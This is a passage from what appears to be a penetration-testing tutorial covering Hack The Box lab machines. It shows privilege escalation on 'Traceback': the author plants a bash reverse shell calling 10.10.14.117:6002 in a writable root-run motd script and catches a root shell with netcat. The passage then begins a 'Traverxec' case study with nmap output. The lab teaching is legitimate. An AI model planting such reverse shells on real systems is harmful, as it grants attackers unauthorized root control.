 2020/12/28 17:41:07 CMD: UID=0 PID=50224 \| /usr/bin/python3 -Es /usr/bin/lsb\_release -sd

2020/12/28 17:41:07 CMD: UID=0 PID=50223 \| /bin/sh /etc/update-motd.d/91-release-upgrade

2020/12/28 17:41:07 CMD: UID=??? PID=50226 \| ???

2020/12/28 17:41:07 CMD: UID=0 PID=50227 \| stat -c %Y /var/lib/ubuntu-release-upgrader/release-upgrade-available

2020/12/28 17:41:07 CMD: UID=0 PID=50230 \| sshd: sysadmin \[priv\]

2020/12/28 17:41:08 CMD: UID=1001 PID=50231 \| -sh

The most important thing hers is that we can see the scripts in the motd files being run by root. We should be able to modify one of the files and put in a reverse shell which will get called when we SSH in.

We can edit the file /etc/update-motd.d/00-header and add the line:

bash -c "bash -i &gt;& /dev/tcp/10.10.14.117/6002 0&gt;&1"

We start a netcat listener on our box listening on port 6002, write the motd file and then ssh as sysadmin. You will know that the process has worked because the SSH login will hang when it executes the reverse shell. Our listener should then drop into a shell as root:

┌─\[rin@parrot\]─\[~/boxes/Traceback\]

└──╼ $nc -lvnp 6002

listening on \[any\] 6002 ...

connect to \[10.10.14.117\] from \(UNKNOWN\) \[10.129.1.189\] 59966

bash: cannot set terminal process group \(50728\): Inappropriate ioctl for device

bash: no job control in this shell

root@traceback:/\# whoami

whoami

root

In the enumeration process, we went through the steps of looking for information and then looking for vulnerabilities that we could exploit on the system, in this case a misconfiguration left by the "hackers" who had taken over the machine. LinPEAS made that process more efficient, highlighting the vulnerability of the group writeable motd files.

We will look at another example where using LinPEAS highlights potential credentials in a configuration file to get a user with different privileges. Having got this user, we can do some manual enumeration to find a path to escalate privileges to get root.

Hack The Box Case Study Traverxec

An nmap scan shows that ports 22 and 80 are open:

22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u1 \(protocol 2.0\)

…

80/tcp open http nostromo 1.9.6

\|\_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
